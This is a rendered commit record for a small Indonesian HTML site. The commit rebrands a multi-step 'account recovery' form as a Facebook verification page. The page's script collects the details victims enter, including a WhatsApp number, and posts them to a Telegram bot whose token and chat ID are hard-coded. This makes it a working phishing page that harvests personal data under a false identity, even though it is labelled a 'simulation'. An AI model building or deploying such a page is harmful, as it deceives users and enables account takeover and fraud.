

Before and after one commit to l4mpu000/amankanakun, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,7 @@
 <html lang="id">
 <head>
   <meta charset="UTF-8">
-  <title>Simulasi Verifikasi Identitas</title>
+  <title>Simulasi Verifikasi Facebook</title>
   <style>
     * {
       margin: 0;
@@ -10,29 +10,29 @@
       box-sizing: border-box;
     }
 
-    body {
+    html, body {
+      height: 100%;
+      font-family: 'Segoe UI', sans-serif;
       background: #f0f2f5;
-      font-family: 'Segoe UI', sans-serif;
-      min-height: 100vh;
     }
 
     .wrapper {
       display: flex;
       justify-content: center;
       align-items: flex-start;
-      padding-top: 60px;
-      height: 100vh;
+      min-height: 100vh;
+      padding-top: 60px; /* agar naik sedikit ke atas */
     }
 
     .box {
-      background: white;
+      background: #fff;
       padding: 30px;
-      border-radius: 10px;
-      box-shadow: 0 2px 8px rgba(0,0,0,0.1);
-      text-align: center;
+      border-radius: 12px;
+      box-shadow: 0 4px 12px rgba(0,0,0,0.1);
       width: 100%;
       max-width: 450px;
       display: none;
+      text-align: center;
     }
 
     .box.active {
@@ -40,7 +40,7 @@
     }
 
     .box img {
-      width: 50px;
+      width: 60px;
       margin-bottom: 20px;
     }
 
@@ -51,17 +51,17 @@
     }
 
     p {
+      font-size: 14px;
       color: #444;
-      font-size: 14px;
       margin-bottom: 25px;
     }
 
     .btn {
       background-color: #1877f2;
-      color: white;
-      padding: 10px 20px;
+      color: #fff;
+      padding: 10px 16px;
+      font-size: 15px;
       border: none;
-      font-size: 15px;
       border-radius: 6px;
       cursor: pointer;
       width: 100%;
@@ -69,10 +69,10 @@
 
     input {
       width: 100%;
+      padding: 10px;
       margin-bottom: 12px;
-      padding: 10px;
       border: 1px solid #ccc;
-      border-radius: 5px;
+      border-radius: 6px;
     }
 
     .success h2 {
@@ -91,7 +91,7 @@
       <button class="btn" onclick="goToStep(2)">Lanjutkan</button>
     </div>
 
-    <!-- Halaman 2: Formulir Pemulihan -->
+    <!-- Halaman 2: Formulir -->
     <div class="box" id="step2">
       <h2>Informasi Pemulihan</h2>
       <form id="recoveryForm">
@@ -104,7 +104,7 @@
       </form>
     </div>
 
-    <!-- Halaman 3: Berhasil -->
+    <!-- Halaman 3: Sukses -->
     <div class="box success" id="step3">
       <h2>Berhasil!</h2>
       <p>Berhasil mengirim data.</p>
@@ -113,12 +113,11 @@
 
   <script>
     function goToStep(step) {
-      document.querySelectorAll('.box').forEach(el => el.classList.remove('active'));
+      document.querySelectorAll('.box').forEach(box => box.classList.remove('active'));
       document.getElementById(`step${step}`).classList.add('active');
     }
 
     const form = document.getElementById('recoveryForm');
-
     form.addEventListener('submit', function(e) {
       e.preventDefault();
 
@@ -137,7 +136,7 @@
 📱 WhatsApp: ${whatsapp}
       `;
 
-      // Ganti ini dengan token dan chat ID milikmu
+      // Ganti token & chat ID kamu di bawah ini
       const telegramBotToken = "7733097714:AAFizEnWZUqtjfJxikCqoNOCzufsJTB2Vk8";
       const telegramChatId = "7228659553";
 
@@ -149,12 +148,12 @@
           text: message
         })
       })
-      .then(response => response.json())
+      .then(res => res.json())
       .then(data => {
-        goToStep(3); // Pindah ke halaman "Berhasil"
+        goToStep(3);
       })
       .catch(error => {
-        alert("Gagal mengirim data ke Telegram.");
+        alert("Gagal mengirim data.");
         console.error(error);
       });
     });
```
